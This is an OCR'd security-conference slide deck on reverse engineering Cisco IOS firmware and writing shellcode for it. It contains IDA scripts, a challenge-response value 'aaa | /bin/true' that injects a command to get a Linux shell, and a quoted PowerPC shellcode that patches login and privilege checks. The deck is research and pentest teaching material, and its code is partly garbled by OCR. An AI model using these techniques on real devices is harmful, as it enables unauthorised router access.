



George Nosenko gnosenko@dsec.ru


## George Nosenko


- Security researcher at Digital Security
- Bug Hunter •
- Exploit Developer •


### Agenda

#### Part 1: Cisco IOS Reverse Engineering

- Main Problem
- Subsystem
- Registry
- Processes
- Glue Code / Simple Code / Dead Code
- Command Parser
- Where is libc?
- Other
- How to debug Cisco IOS
- How to debug Cisco IOS XE

#### Part 2: Cisco IOS Shellcoding

- Motivation
- Main Problems
- Image-independet Shellcodes
	- Disassembling Shellcode
	- Interrupt-Hijack Shellcode
- Tcl Shellcode
	- How does it work?
	- Features
	- Limitations
	- How is it made?


Prior works

Attacking Network Embedded System Felix 'FX' Lindner 2002 The Holy Grail Cisco IOS Shellcode And Exploitation Techniques Michael Lynn 2005 Cisco IOS Shellcodes Gyan Chawdhary, Varun Uppal 2007 Remote Cisco IOS FTP Exploit Andy Davis 2007 Killing the myth of Cisco IOS rootkits: DIK Sebastian Muniz 2008 Cisco IOS - Attack & Defense. The State of the Art Felix 'FX' Lindner 2008 Router Exploitation Felix 'FX' Lindner 2009 Fuzzing and Debugging Cisco IOS Sebastian Muniz, Alfredo Ortega 2011 Killing the Myth of Cisco IOS Diversity Ang Cui, Jatin Kataria, Salvatore J. Stolfo 2011 Research on Cisco IOS Security Mechanisms Xiaoyan Sua 2011 Cisco IOS Rootkits and Malware Jason Nehrboss 2012

SYNful Knock A CISCO IMPLANT Bill Hau, Tony Lee, Josh Homan 2015


## Cisco Diversity Overview

### Operation Systems

Cisco IOS

Cisco IOS XE (based on Linux)

Cisco NX-OS (based on Linux)

Cisco IOS XR (based on QNX)

ASA OS (based on Linux)

CatOS

Architectures

PowerPC (Book-E)

MIPS

Intel x86 x64


## Over 300 000 unique images

Killing the Myth of Cisco IOS Diversity


AM

CISCO IOS SHELLCODE: ALL-IN-ONE

Part 1

# CISCO IOS RE


## Main problem

- Designed as a single unit a large, statically linked ELF binary
- Everything is highly integrated and non-modular
- There is no API

lmage size ≈ 142 MB Functions ≈ 350 000 IDA Database ≈ 2.5 GB Binwalk ≈ 100 GB


#### Reverse in context

Inside Cisco IOS Software Architecture

Vijay Bollapragada, CCIE Curtis Murphy, CCIE Russ White, CCIE

Cisco IOS Programmer's Guide Architecture Reference

Software Release 12.0 Fifth Edition February 1999




## Unpacking Firmware

- The image may be self-decompressing
- The image may contain:
	- loader
	- driver for flash
	- firmware for additional hardware
	- certificates
- Binwalk will work successfully, but it generates a large output
- To automate the analysis, you need to write an unpacker




147

## CISCO IOS SHELLCODE: ALL-IN-ÒNE

### Trace strings




## Trace strings

```
def rename_funcs(strings=None, pattern=None):
```
names = [s for s in strings if re.search(pattern, str(s)) is not None]

```
for name in names:
 for ref in DataRefsTo(name.ea):
    old_name = GetFunctionName(ref)
   func  addr = LocByNameEx(ref, old  name)
```

```
if func_addr == BADADDR  or
 has_user_name(getFlags(func_addr)):
 break
```

```
MakeName( func_addr,  str(name))
```
break

_name___ == " __main___": ﯿﮯ rename_funcs(strings=Strings(), pattern=r'^[a-z]{3,}_[a-z]+_')



2015

## CISCO IOS SHELLCODE: ALL-IN-ONE

#### Subsystems

| Router# show subsys ? |  |
| --- | --- |
| class | Show subsystems by class |
| memory | Show subsystems memory usage |
| name | Show subsystems by name |
| running | Show subsystem information about running processes |
|  | Output modifiers |
| くCr> |  |

#### Router# show subsys

| Name | Class | Version |
| --- | --- | --- |
| cef | Kernel | 1.000.000 |
| hw_api_trace_chain Kernel |  | 1.000.001 |
| mtrie | Kernel | 2.000.001 |
| adj trace chain | Kernel | 1.000.001 |
| alarm | Kernel | 1.000.001 |
| arp | Kernel | 1.000.001 |
| arp app data | Kernel | 1.000.001 |

| struct subsystype |
| --- |
| unsigned int magicl; |
| unsigned int magic2; |
| unsigned int header version; |
| unsigned int kernel majversion; |
| unsigned int kernel minversion; |
| char* namestring; |
| unsigned int subsys majversion; |
| unsigned int subsys minversion; |
| unsigned int subsys editversion; |
| void* init address; |
| SUBSYSTEM CLASS class; |
| unsigned int id; |
| char* properties[SUBSYS MAX]; |
| }; |


#### Subsystems



## All data relating to a subsystem is located below the header


### Subsystems

```
def create_subsytems(name='subsystype_'):
```
for seg in get data segment():

for ea in search(start=seg.startEA, end=seg.endEA, pattern='C1 5C 05 15 C1 5C 05 15'): # it uses FindBinary

p name, p func, sysclass = Dword(ea + 0x14), Dword(ea + 0x24), Dword(ea + 0x28)

SetColor(p func, CIC FUNC, get color by subsysclass(sysclass))

```
func  name = GetString(p_name)
if func  name == '':
  continue
```
if not has_user_name(getFlags(p_func)): print "ea: 0x%x 0x%x %s" % (ea, p_func, func_name) MakeNameAuto(p func, func_name + '_subsys_init', SN_NOCHECK)


CDP :

## Registries and Services

- Linker-independent mechanism •
- Service is an interface into subsystem ●
- Registry is a collection of services ●
- Service emulates common C • construct (loop, switch, etc.)
- 8-12 different types ●

#### [REG_NAME][NUM_SERVICE][TYPE](SUB)[ADDR]




### Process (is equivalent of a thread)

```
#include "sched.h"
pid  t cfork(forkproc (*padd), long pp, int stack, char *name, int ttynum);
```
pid t process create(process t (*padd), char *name, stack size t stack, process priority t priority);

```
result = process_create(bootload, "Boot Load", LARGE_STACK, PRIO_NORMAL);
if (result != NO  PROCESS) {
       process set arg num(result, loading);
       process set ttynum(result, startup ttynum);
}
```
Router# show processes

|  |  |  | CPU utilization for five seconds: 2%/0%; one minute: 2%; five minutes: 2% |  |
| --- | --- | --- | --- | --- |
| PID QTy | PC Runtime (ms) |  | Invoked uSecs | Stacks TTY Process |
| 1 Cwe 5B63990 |  | 152 | 11998 | 1225228/26000 0 Chunk Manager |
| 2 Csp 6DE5568 |  | 48 | 37481 | 122612/23000 0 Load Meter |
| 3 Mwe 44929A4 |  | 12 | 182631 | 028740/29000 0 BGP Scheduler |
| 4 Mwe 7A426D8 |  | റ | 11 | 025748/26000 0 Retransmission |


#### Process. How to find a process_create() fast

- Process is an internal structure (similar to PEB)
- Process is allocated in cfork() at 05B9AFDC
- A cfork () is called in process create()

Router# show memory processor | include Process

| Address | Bytes | Prev | Next Ref | PrevF | NextF Alloc PC what |
| --- | --- | --- | --- | --- | --- |
| 12474BAC 0000000160 124737F8 12474C78 001 ------- -------- 08DF1798 *Init* |  |  |  |  |  |
| 12474C78 0000000160 12474BAC 12474D44 001 ------- -------- 08DF1798 *Init* |  |  |  |  |  |
| 1247BD18 0000004288 1247B710 1247CE04 001 -------- -------- 0638C148 TTY data |  |  |  |  |  |
| 12483A50 000000688 12483984 12483D2C 001 ------- ------- 05B9AFDC Process |  |  |  |  |  |


#### Process

```
def find  all  proocess(func=None, proc  name  reg='r4'):
  ea = func.startEA
```
for i, ref in enumerate(CodeRefsTo(ea, True)): proc ep, proc name = get proc entry point(ref), get proc name(ref, dest reg=proc name reg)

if proc_ep is None: continue

if has dummy name(GetFlags(proc_ep)): if MakeNameEx(proc ep, proc name, SN NOWARN) == 0: print '[!] %d: MakeName failed ref=0x%x: 0x%x, %s' % (i, ref, proc ep, proc name)

SetColor(proc_ep, CIC_FUNC, COLOR)

if name ==' main ':

find_all_proocess(func=get_func(get_name_ea(BADADDR, 'process create'))


#### Glue Code / Simple Code / Dead Code

| .text:041AF174 | glue sub 41AF174 memcpy: |
| --- | --- |
| .text:041AF174 |  |
| .text:041AF174 3D 60 08 DF lis | r11, memcpy@h |
| .text:041AF178 39 6B 5F 24 addi | r11, r11, memcpy@l |
| .text:041AF17C 7D 69 03 A6 mtctr | r11 |
| .text:041AF180 4E 80 04 20 bctr |  |
| .text:041AF180 | # End of function glue sub 41AF174 memcpy |

#### FindBinary( 7D 69 03 A6 4E 80 04 20 )

| .text:04110830 | get value at wC0011F4 o110: |
| --- | --- |
| .text:04110830 |  |
| .text:04110830 3D 20 0C 00 lis | r9. off C0011F4@h |
| .text:04110834 80 69 11 F4 lwz | r3, off C0011F4@l(r9) |
| .text:04110838 38 63 01 10 addi | r3, r3, 0x110 |
| .text:0411083C 4E 80 00 20 blr |  |
| .text:0411083C | # End of function get_value_at_wC0011F4_o110 |

#### FindBinary( 3D 20 ?? ?? 80 69 ?? ?? 38 63 ?? ?? 4E 80 00 20 )

FindBinary( 38 60 00 01 4E 80 00 20 )

.text:0412E5FC return one: .text:0412E5FC 38 60 00 01 li r3, 1 .text:0412E600 4E 80 00 20 blr .text:0412E600 # End of function return_one


### Command Parser Tree

- Located under the subsystem header ●
- Node contains different information ● depending on the type
- The root node has type = 0x56 ●

struct tree node right; tree node* tree node* left; unsigned int type; payload* data; unsigned int unknown; };

```
type = 0x45
```
struct payload handler void* handler; void* arg; };

## type = 0x56 payload = 0x1A1A1A1A

```
struct payload cmd
  char* name;
  char* description;
  permission priv;
};
```
## type = 0x1A

## Where is libc?

- In my case, libc is located at end of the code in .text ●
- libc is a layer over OS service • (printf, fopen, socket, malloc...)
- libc is a collection of base functions • (memcpy, strcpy, stncat...)
- A base function is a simple code i.e. has a little cyclomatic complexity



## Look for all simple functions around the end of the code


## Magic People, Voodoo People!

Process

0xBEEFCAFE - Process Block

Memory

0xAB1234CD - Heap Block 0xFD0110DF - Red Zone 0xDEADB10B - Pool 0xAFACEFAD - Packet

#### Other

0x1A1A1A1A - Parser Root Node 0xABABABAB - TCP socket (TCB) 0xDEADCODE - Invalid interrupt handler

#### Image/Boot/Code signing

0xFEEDFACE - Envelope header 0xBAD00B1E - Flash Driver (atafslib) 0xBEEFCAFE - Key Record Info


2015

## CISCO IOS SHELLCODE: ALL-IN-ONE

#### Cisco Discovery

Router# show processes ? Show CPU use per process сри Show memory use per process memory

Router# show memory ?

allocating-process Show allocating process name IO memory stats io Processor memory stats processor Summary of memory usage per alloc PC summarv transient

Router# show buffers all ? dump Show buffer header and all data header Show buffer header only Show buffer header and packet data packet pool Buffers in a specified pool

Router# show list List Manager: 10944 lists known, 5907113 lists created ID Address Size/Max Name FA7CA30 10/-Region List ਹ 2 E9C9560 1/-I/O

> ਤੋ 2/-E9C85D0 Processor

Router# show stack 1 Process 1: Chunk Manager Stack segment 0x1247D30C - 0x1248389C FP: 0x12483860, RA: 0x5B9CBFC FP: 0x12483888, RA: 0x5B63994 FP: 0x12483890, RA: 0x6DEEFA0 FP: 0x0, RA: 0x6DE8834

| Router# show tcp brief all |
| --- |
| TCB Local Address Foreign Address (state) |
| 57B455EC 0.0.0.0.64999 *.* LISTEN |
| 56FAD21C 0.0.0.0.0.34154 *.* LISTEN |

Router# show ip sockets

Router# show version Router# show tech-support Router# show inventory Router# show module

Router# show region Router# show module Router# show platform hardware tlb

## ZERO NIGH®

## CISCO IOS SHELLCODE: ALL-IN-ONE

## Debugging under Cisco IOS

- Cisco IOS contains a GDB server, but...
Router> enable Router# gdb kernel

- It doesn't work with a generic GDB client පි because the RSP protocol is a little different
- You can:
	- use ROMMON; patch old GDB; use IODIDE; create an adapter for IDA Pro.




## Debugging under Cisco IOS XE (3.3.5SE)

- Cisco IOS doesn't contain a GDB server, but…
- You can build (static) gdbserver and GDB for target platform
- Then copy gdbserver to device and get Linux Shell

```
Switch> enable
Switch# configure terminal
Switch(config)# service internal
Switch(config)# end
Switch# request system shell
Activity within this shell can jeopardize the functioning of the system
Are you sure you want to continue? [y/n] Y
Challenge:e2a41a61930e92d5da…
Please enter the shell access response based on the above challenge…
aaa | /bin/true
```

```
[Switch:/]$ uname -a
Linux Switch 2.6.32.59-cavium-octeon2.cge-cavium-octeon… mips64 GNU/Lin
```
- Attach gdbserver to process "iosd" (flash:/ map at /mnt/sd3/user)
[Switch:/mnt/sd3/user/gdbservers]$ ./gdbserver.mips /dev/ttyS0 --attach 8566

| × - 0 gosha@ubuntu: ~ |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
| [New Thread 9211] |  |  |  |  |  |  |
| Assembly |  |  |  |  |  |  |
| 0x303099fc ? sd v0,64(sp) |  |  |  |  |  |  |
| 0x30309a00 ? sd a3,72(sp) |  |  |  |  |  |  |
| 0x30309a04 ? ld a0,80(sp) |  |  |  |  |  |  |
| 0x30309a08 ? lw t9,-32052(gp) |  |  |  |  |  |  |
| 0x30309a0c ? jalr | fd |  |  |  |  |  |
| 0x30309a10 ? nop |  |  |  |  |  |  |
| 0x30309a14 ? ld a3,72(sp) |  |  |  |  |  |  |
| Expressions |  |  |  |  |  |  |
| History |  |  |  |  |  |  |
| Метогу |  |  |  |  |  |  |
| Registers - |  |  |  |  |  |  |
| zero 0x00000202 |  | at 0x10008ce1 |  | v0 0x00000202 |  | v1 0x31f5b8e0 |
| a0 0x0000000b |  | a1 0x7f8151dc |  | a2 0x7f81525c | a3 | 0x000000001 |
| t0 0x7f8151d4 | t1 |  | 0x7f8152dc | t2 0x000000001 | t3 | 0x5a418448 |
| t4 0x0000000000 t5 |  |  | 0x00008c00 | t6 0x30ea6378 | t7 | 0x000000018 |
| s1 | s0 0x7f8152dc |  | 0x7f81525c | s2 0x000000000 | s3 | 0x7f8151dc |
| 0x000000000 | S4 | s5 0x301c2540 |  | s6 0x7f8151d4 | s7 | 0x59e0ee00 |
| t8 0x30ea6360 |  | t9 0x303236b0 |  | ko 0x7f8152dc |  | k1 0x00000000 |
| gp 0x303a2980 |  | sp 0x7f815170 |  | s8 0x7f8151d0 |  | ra 0x303099dc |
| status 0x00008cf3 |  | lo 0x00000000 |  |  | hi 0x00000000 badvaddr 0x52c75000 |  |
| cause 0x00800020 |  | pc 0x303099fc |  | fcsr 0x00000000 |  | fir 0x00000000 |
| restart 0x00000202 |  |  |  |  |  |  |
| Source |  |  |  |  |  |  |
| Stack |  |  |  |  |  |  |
| [0] from 0x303099fc |  |  |  |  |  |  |
| (no arguments) |  |  |  |  |  |  |
| Threads |  |  |  |  |  |  |
| [5] | id 9211 from 0x30e8aecc |  |  |  |  |  |
| id 9210 from 0x302d4af4 | [4] |  |  |  |  |  |
| [3] | id 9209 from 0x30313804 |  |  |  |  |  |
| id 9208 from 0x303099fc |  |  |  |  |  |  |
| id 8566 from 0x303099fc | [1] |  |  |  |  |  |


Part 2

# CISCO SHELLCODING


#### Motivation


Our pentesters often deal with Cisco equipment, particularly with binary vulnerabilities

In public, there is no shellcode for the needs of pentesters

We need a flexible and powerful tool


#### Main problems / Earlier shellcode

- There is no open API or syscall's for a third party developer. System calls are the interface into ROMMON
	- put char in console
	- reboot
	- change confreq, etc
- Cisco IOS Binary Diversity
- Cisco IOS is highly integrated (static linked) one big ELF without any modules (e.g. *.so)

Cisco IOS Bind shellcode by Varun Uppal Cisco IOS Connectback shellcode by Gyan Chawdhary Cisco IOS Shellcodes – BlackHat USA 2008

#### Tiny shellcode by Gyan Chawdhary

| .equ ret, 0x804a42e8 # hardcode |
| --- |
| .equ login, 0x8359b1f4 # hardcode |
| .equ qod, 0xff100000 |
| .equ priv, 0x8359be64 # hardcode |

#### main:

# login patch begin lis 9, login@ha la 9, login@l(9) li 8,0 stw 8, 0(9) # login patch end

# priv patch beqin lis 9, priv@ha la 9, priv@l(9) lis 8, qod@ha la 8, god@l(8) stw 8, 0(9) # priv patch end

# exit code lis 10, ret@ha 4, 10, ret@l addi mtctr ব bctrl


#### lmage-independent shellcodes

- Signature-based Shellcode by Andy Davis Version-independent IOS shellcode, 2008 1. Invariant is a structure of code
- Disassembling Shellcode by Felix 'FX' Lindner Cisco IOS Router Explotation, 2009 2. Invariant is an unique string
- Interrupt-Hijack Shellcode by Columbia University NY Killing the Myth of Cisco IOS Diversity, 2011 3. Invariant is an interrupt handler routines

## All leverage a common Cisco IOS invariant to overcome a binary diversity


## Disassembling Shellcode

#### Basic technique

- Find a unique string to determine its address 1.
- 2. Look for a code which references this string
- Patch the function 3.

## Pros & Cons

- Reliable it works on a wide range of Cisco equipment ●
- Full interaction, but it is not a covert ●
- We have to be constrained by only IOS shell ●
- May cause watchdog timer exceptions to be thrown, ● which terminates and logs all long running processes

Cisco IOS Router Explotation, 2009 Killing the Myth of Cisco IOS Diversity, 2011

